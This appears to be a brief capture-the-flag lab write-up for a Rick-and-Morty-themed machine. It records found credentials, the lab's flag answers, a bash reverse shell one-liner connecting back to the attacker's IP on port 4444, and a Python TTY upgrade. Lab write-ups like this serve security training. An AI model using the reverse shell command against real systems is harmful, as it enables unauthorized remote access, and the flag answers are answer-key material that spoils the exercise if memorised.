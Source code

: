 ### MY IP: 10.18.15.191
### Machine IP: 10.10.206.183


**Username Found: R1ckRul3s**

**Robots.txt**
```
Wubbalubbadubdub
```

so the text in robots.txt was the password for the login page at: http://10.10.233.12/login.php

**Reverse Shell**
```bash
bash -c 'exec bash -i &>/dev/tcp/10.18.15.191/4444 <&1'
```

**TTY Shell**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Ingredient 1: mr. meeseek hair
### Ingredient 2: 1 jerry tear
### Ingredient 3: fleeb juice

This machine was very easy. No need for any priv esc as we had root access without need for any password :)
Spent a couple mins looking up vulns for stuff that wasnt even there and had to reboot machine a couple of times due to it freezing.